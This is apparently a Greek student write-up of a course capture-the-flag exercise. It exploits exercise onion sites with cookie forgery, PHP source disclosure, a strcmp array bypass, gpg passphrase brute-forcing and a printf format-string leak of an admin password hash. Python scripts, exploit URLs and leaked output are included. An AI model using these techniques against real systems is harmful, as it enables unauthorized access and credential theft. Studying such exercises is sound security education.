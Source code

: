 # Όνομα ομάδας: hackerz - Εργασία 2
**Μέλη**:
 - Κώστας Χατζόπουλος - 1115201300202
 - Βασίλειος Πουλόπουλος - 1115201600141


## Ερώτημα 1 
Αρχικά, πλοηγηθήκαμε στο site ( http://2fvhjskjet3n5syd6yfg5lhvwcs62bojmthr35ko5bllr3iqdb4ctdyd.onion ) , στον κώδικα html και στα cookies. Τα 2 πράγματα που μας κίνησαν το ενδιαφέρον ήταν το σχόλιο στον κώδικα αλλά και το οτι μέσω του cookie μπορούσαμε να αλλάξουμε τον αριθμό των visitors.
### Για το σχόλιο
Μπήκαμε στο άρθρο που είχε το σχόλιο ( https://blog.0day.rocks/securing-a-web-hidden-service-89d935ba1c1d ) και δοκιμάζαμε ότι έλεγε μήπως βρίσκαμε κάτι που δεν είχε γίνει. Πράγματι το /server-info ( http://2fvhjskjet3n5syd6yfg5lhvwcs62bojmthr35ko5bllr3iqdb4ctdyd.onion/server-info ) δεν ήταν κλειδομένο και μπήκαμε να δούμε αν θα βρούμε πληροφορίες που μας ενδιαφέρουν. 

Βρήκαμε **(1)** πως υπάρχει και **προσωπικό site του ys13**  το οποίο βρισκόταν σε άλλο link ( http://jt4grrjwzyz3pjkylwfau5xnjaj23vxmhskqaeyfhrfylelw4hvxcuyd.onion/ ) το οποίο οδηγεί σε μία φόρμα εισόδου που ζητάει κωδικό και **(2)** πως επιτρέπεται η είσοδος σε αρχεία με κατάληξη .phps. 

### Για το cookie
Παρατηρήσαμε πως το cookie ηταν ένα string της μορφής base64(number:sha256(number)) οπότε βάζοντας στο number οτιδήποτε, μπορούσε να τυπωθεί στη σελίδα κάτω από το visitor number. Έτσι, φτιάξαμε ένα script (cookie.py) στο οποίο δίναμε την είσοδο που θέλαμε και υπολόγιζε το αντίστοιχο cookie.

**cookie.py:**

    from hashlib import sha256
    from base64 import b64encode
    
    print("Give input")
    x = input()
    y = sha256(x.encode())
    y = y.hexdigest()
    final = x+":"+y
    encoded = b64encode(final.encode('ascii'))
    print(encoded.decode('ascii'))

### Personal YS13 website
Μέσω του html κώδικα της φόρμας εισόδου, είδαμε ότι έκανε GET request στο access.php. 
Αφού επιτρέπεται η είσοδος στα .phps αρχεία δοκιμάσαμε να μπούμε στο /access.phps και τα καταφέραμε ( http://jt4grrjwzyz3pjkylwfau5xnjaj23vxmhskqaeyfhrfylelw4hvxcuyd.onion/access.phps ). Είχαμε πλέον πρόσβαση στον κώδικα της access.php. Tο περιεχόμενο της μεταβλητής **$desired** το υπολογίσαμε μέσω script που φτιάξαμε (desired.py)

**desired.py:**

    number = 7
    p = 1
    mult = 0
    counter = 0
    while  1:
	    mult = p*number
	    if (str(mult)).count('7') != 0: 
		    counter += 1    
		    print(str(counter) + ": " + str(mult))    
	    if counter == 48:    
		    print(mult)    
		    break    
	    p += 1

και μας έβγαλε τον αριθμό **1337**, αλλά έπρεπε το μέγεθος του **$desired** να είναι 7, οπότε βάλαμε για username τον αριθμό **0001337**, ο οποίος ήταν και ο σωστός. Για το password ψάξαμε αν μπορούμε να διαπεράσουμε την **strcmp** της php. Ψάχνοντας στο google, βρήκαμε αυτό το [άρθρο](https://www.doyler.net/security-not-included/bypassing-php-strcmp-abctf2016) . Στείλαμε το password σαν array και η strcmp μας γύρισε NULL αντί για error. Στην php ισχύει ότι NULL == 0, οπότε διαπεράσαμε τη συνθήκη της if. ( http://jt4grrjwzyz3pjkylwfau5xnjaj23vxmhskqaeyfhrfylelw4hvxcuyd.onion/access.php?user=0001337&password[]=%22%22 ). Φτάσαμε στο μήνυμα **"Hi! You can find my blog posts at directory: /blogposts7589109238!"**.  Μπήκαμε στα blog posts ( http://jt4grrjwzyz3pjkylwfau5xnjaj23vxmhskqaeyfhrfylelw4hvxcuyd.onion/blogposts7589109238 ) και κάναμε access τον φάκελο που περιέχει τα post ( http://jt4grrjwzyz3pjkylwfau5xnjaj23vxmhskqaeyfhrfylelw4hvxcuyd.onion/blogposts7589109238/blogposts/ ). 

Εκτός από τα posts (**diary.html**, **diary2.html**) βρήκαμε και το **post3.html**.  To διαβάσαμε και κρατήσαμε δύο πράγματα που φανταζόμασταν ότι θα μας ήταν χρήσιμα. Τη λέξη "**raccoon**" και την τελευταία πρόταση που έλεγε πως  τα backup θα τα βρεί ο #100013 χρήστης που θα μπει στο site. Έχοντας τη δυνατότητα να αλλάξουμε το visitor number, το αλλάξαμε σε 100013 και μας εμφάνισε το μήνυμα 

>  Visitor number
> Congrats user #100013! Check directory /sekritbackups2444 for latest
> news... 

Έτσι βρήκαμε τα backup files ( http://2fvhjskjet3n5syd6yfg5lhvwcs62bojmthr35ko5bllr3iqdb4ctdyd.onion/sekritbackups2444/ ). Στο αρχείο **notes.txt.truncated**, διαβάσαμε πως κάνει το encrypt για τα files του. Φανταζόμασταν πως το "raccoon" είναι το string που θέλαμε αλλά δεν ξέραμε την ημερομηνία. Έτσι φτιάξαμε ένα script (decrypt.py) το οποίο δοκίμαζε όλες τις ημερομηνίες του 2020 με τη λέξη "raccoon" και έτσι βρήκαμε τη σωστή ημερομηνία η οποία ήταν "**2020-2-12**". 


**decrypt.py:**

    import hashlib
    import os
   
    def encrypt_string(hash_string):
        sha_signature = \
            hashlib.sha256(hash_string.encode()).hexdigest()
        return sha_signature
    
    for y in range(1, 12):
        for i in range(1, 31):
            x = "2020-" + "{:02d}".format(y) + "-" + "{:02d}".format(i) + " raccoon"
            print(x)
            sha_signature = encrypt_string(x)
            cmd1 = 'echo ' + sha_signature + ' | gpg --batch --yes --passphrase-fd 0 /home/msi/Desktop/sekritbackups2444/firefox.log.gz.gpg'
            cmd2 = 'echo ' + sha_signature + ' | gpg --batch --yes --passphrase-fd 0 /home/msi/Desktop/sekritbackups2444/signal.log.gpg'
            print(cmd1)
            os.system(cmd1)
            os.system(cmd2)

Κάναμε decrypt τα αρχεία.

 Στο **firefox.log** τρέξαμε ένα bash script(remove.sh)

**remove.sh:**

    grep -v "https://en.wikipedia.org/wiki/The_Conversation" firefox.log > out.txt

 για να φύγουν όλα τα link του wikipedia, οπότε μας έμεινε το link του github( https://github.com/asn-d6/tor/ ). Μπήκαμε και είδαμε το τελευταίο commit που είχε κάνει ο κύριος **George Kadianakis** . Το link ήταν το: [https://github.com/asn-d6/tor/commit/9892cc3b12db4dc1e8cbffec8e18bb18cbd77d0f](https://github.com/asn-d6/tor/commit/9892cc3b12db4dc1e8cbffec8e18bb18cbd77d0f) . 
Μετά μπήκαμε στο **signal.log** και πήραμε τον κωδικό και αντικαταστήσαμε τον κωδικό του τελευταίου commit στο παραπάνω url με αυτόν που πήραμε από το signal.log ( [https://github.com/asn-d6/tor/commit/2355437c5f30fd2390a314b7d52fb3d24583ef97](https://github.com/asn-d6/tor/commit/2355437c5f30fd2390a314b7d52fb3d24583ef97) ). Έτσι φτάσαμε στις οδηγίες για την εύρεση των συντεταγμένων όπου για < team name > βάλαμε το όνομα της ομάδας μας "hackerz". Ετσι βρήκαμε τις συντεταγμένες.   

Συντεταγμένες: **(47.5284864714, 4.8260977302)**


## Ερώρημα 2
Από το diary2.html ( http://jt4grrjwzyz3pjkylwfau5xnjaj23vxmhskqaeyfhrfylelw4hvxcuyd.onion/blogposts7589109238/blogposts/diary2.html ) κρατήσαμε 2 πράγματα. Το link του github με τον κώδικα του pico server ( https://github.com/chatziko/pico ) και το link για τον server( 4tpgiulwmoz4sphv.onion ). Στήσαμε τον server στα μηχανήματά μας ώστε να τον τεστάρουμε και για να δούμε τον κώδικα αναλυτικά. 

Αρχικά είδαμε το σχόλιο "TODO" και παρατηρήσαμε την vulnerable printf. τυπώσαμε addresses βάζοντας για input μερικά %08x και πράγματι μας τα τύπωνε. Στη συνέχεια βάλαμε %s στο τέλος των %08x. Αν υπήρχε κάποιο string εκεί θα τυπωνόταν, οπότε αρχίσαμε από την πρώτη διεύθυνση να προσπαθούμε να τυπώσουμε κάποιο string, αν δε βρίσκαμε κάτι, προσθέταμε ένα %08x πριν το %s ωστε να πάμε στην επόμενη διεύθυνση να τυπώσουμε το string. Αυτό το συνεχίσαμε μέχρι να βρούμε κάτι χρήσιμο. 

Φτιάξαμε ένα script που μας έφτιαχνε το input με όσα %08x θέλαμε και έτρεχε το δοκίμαζε(input.py).

**input.py:**

    import os
    
    from base64 import b64encode    
    x =  '%08x '    
    baseInput =  "%08x "     
    
    for i in  range(0, 5):    
	    baseInput = baseInput + x    
    baseInput +=  "%s:lalala"    
    encoded = b64encode(baseInput.encode('ascii'))
    print(baseInput)    
    curl =  "curl -I 'http://127.0.0.1:8000/' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:77.0) Gecko/20100101 Firefox/77.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Authorization: Basic "  + encoded.decode('ascii') +"'"    
    print(curl)    
    os.system(curl)    
    print('\n\n')

Μετά από μερικές προσπάθειες βρήκαμε τα στοιχεία του πρώτου χρήστη (που ήταν της μορφής **name:md5(password)**) που βρίσκονταν στο αρχείο **passwd** . Μεταφέραμε ακριβώς το ίδιο input (**%08x %08x %08x %08x %08x %08x %s**) στο server της άσκησης και το output ήταν: 

> http://4tpgiulwmoz4sphv.onion is requesting your username and
> password. The site says: “Invalid user:  5807d010 15 5656951d ffffffff
> d00 5806d155 admin:f68762a532c15a8954be87b3d3fc3c31”


Άρα το md5 hash του κωδικου του admin είναι: **f68762a532c15a8954be87b3d3fc3c31** 
Ψάξαμε σε μερικά site το hash για να βρόυμε το password και μετά από μερικές προσπάθειες βρήκαμε ένα το οποίο μας έδωσε το password "you shall not pass" :D 
([https://md5.gromweb.com/?md5=f68762a532c15a8954be87b3d3fc3c31](https://md5.gromweb.com/?md5=f68762a532c15a8954be87b3d3fc3c31)). 
Όταν αποκτήσαμε πρόσβαση, η απάντηση βρισκόταν εκεί.
 
Για να ολοκληρωθεί το Plan X χρείάζεται ένας **ηλιακός  αναλυτής ανέμου**...


Σημείωση: Τα python scripts είναι γραμμένα σε **python3**.
